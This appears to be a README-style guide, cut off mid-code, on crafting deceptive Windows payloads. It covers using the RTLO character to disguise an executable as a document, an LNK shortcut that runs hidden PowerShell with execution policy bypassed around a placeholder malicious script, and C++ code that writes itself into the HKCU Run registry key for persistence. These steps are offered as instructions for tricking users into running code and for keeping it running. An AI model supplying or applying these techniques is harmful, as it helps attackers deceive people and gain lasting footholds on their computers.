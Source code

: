 ### Explanation
The RTLO character stands for Right-To-Left Override. It is a non-printing Unicode character, represented by the Unicode character code U+202E1. This character is used to write languages that are read in the right-to-left manner, such as Hebrew, Arabic, Aramaic, and Urdu. It takes the input and literally just flips the text the other way round.

The RTLO character can be used to reverse the display of text that follows it. For example, a Windows screensaver executable named March 25 \u202Excod.scr will display as March 25 rcs.docx. Adversaries may abuse the RTLO character as a means of tricking a user into executing what they think is a benign file type.

## LNK files
Make a shortcut file by right-clicking and selecting "New&rarr;Shortcut"
When asked for the program you would like to use, you can have it run a powershell command like:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "[Malicious PowerShell Script Here]"
```

## Using the .ico files on the windows system
These two folders contain a lot of ico files for you to use
+ Windows/System32/shell32.dll
+ Windows/System32/imageres.dll

## exe files
In C++, you can modify the windows system using the `<windows.h>` library.

### Running cmd from your program
```cpp
 if (ShellExecuteA(NULL, "open", "notepad.exe", NULL, NULL, SW_SHOWNORMAL) <= (HINSTANCE)32) {
```
Parameters:
+ (NULL): No parent window is associated.
+ ("open"): Dictates the action, which is to "open".
+ ("notepad.exe"): Denotes the application's name.

ShellExecuteA expects the string parameters to be ASCII. There is also ShellExecuteW to have the string parameters as any Unicode character. Windows likes `LPCWSTR` instead of string for 'wide' strings that support unicode.

A returned value of 32 or below from the function suggests an error.
### Adding a program to the registry
To make the program add itself to the registry, you can use this code:
```cpp
// Declare a handle (hKey) to a registry key.
HKEY hKey;
// Registy path for programs that run on startup
const TCHAR* subkey = _T("Software\\Microsoft\\Windows\\CurrentVersion\\Run");

// Attempt to open the specified registry key (subkey) with write permissions. If the key is successfully opened, the handle is stored in hKey.
if (RegOpenKeyEx(HKEY_CURRENT_USER, subkey, 0, KEY_WRITE, &hKey) != ERROR_SUCCESS) {
        _tprintf(_T("Could not open registry key.\n"));
        return 1;
}

// Name of the key
const TCHAR* valueName = _T("Watcher_2");

// gets the current path of the program
TCHAR pathToExe[MAX_PATH];
if (!GetModuleFileName(NULL, pathToExe, MAX_PATH)) {
```